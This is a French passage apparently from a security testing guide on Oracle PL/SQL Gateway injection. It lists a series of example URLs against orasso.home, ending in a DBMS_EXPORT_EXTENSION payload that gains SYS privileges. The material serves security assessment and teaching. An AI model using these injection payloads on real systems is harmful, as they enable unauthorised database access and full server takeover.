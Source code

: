 Il faut remarquer la présence du paramètre FOO dans la chaîne de la
requête de l'attaquant. Les attaquant peuvent abuser de cela pour
exécuter du code SQL arbitraire. D'abord ils doivent fermer les
chevrons :

`http://server.example.com/pls/dad/orasso.home?);--=BAR`

Cela résulte par l'exécution de ce code PL/SQL :

`..`
`orasso.home();--=>:);--);`
`..`

A remarquer que le code situé après le double moins (--) est considéré
comme un commentaire. Cette requête va cause une erreur interne au
serveur, puisque les variables liées ne sont plus utilisées, l'attaquant
doit donc les ajouter de nouveau. Il s'avère que cette variable liée est
la clef pour exécuter du code PL/SQL arbitraire. Pour le moment, il
suffit d'essayer d'utiliser HTP.PRINT pour afficher BAR, et d'ajouter la
variable nécessaire :1 :

`http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR`

Cela devrait retourner un code 200 et le mot "BAR" dans la page HTML. Ce
qui se passe ici est que tout ce qui se trouve après le signe égal, BAR
dans ce cas, est de la donnée insérée dans la variable liée. En
utilisant la même technique il est aussi possible d'accéder à
owa_util.cellsprint :

`http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS`

Pour exécuter du code SQL arbitraire, y compris des instructions DML et
DDL, l'attaquant insère un execute immediate :1 :

`http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual`

Remarquons que la sortie ne sera pas affichée. Cela peut être utilisé
pour exploiter des bogues d'injection PL/SQL avec les droits SYS, ce qui
permet de prendre le contrôle complet du serveur de base de données. Par
exemple, l'URL suivante profite de failles d'injection SQL dans
DBMS_EXPORT_EXTENSION (voir <http://secunia.com/advisories/19860>) :

`http://www.example.com/pls/dad/orasso.home?);`
` execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20`
` BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES`
` ('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1);`
` EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20`
` PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';`
` END;--','SYS',1,'VER',0);END;`

### Evaluation d'applications PL/SQL personnalisées

Lors d'une évaluation de sécurité en boite noire, le code PL/SQL
spécifique à l'application n'est pas disponible, mais sa sécurité doit
tout de même être évaluée.
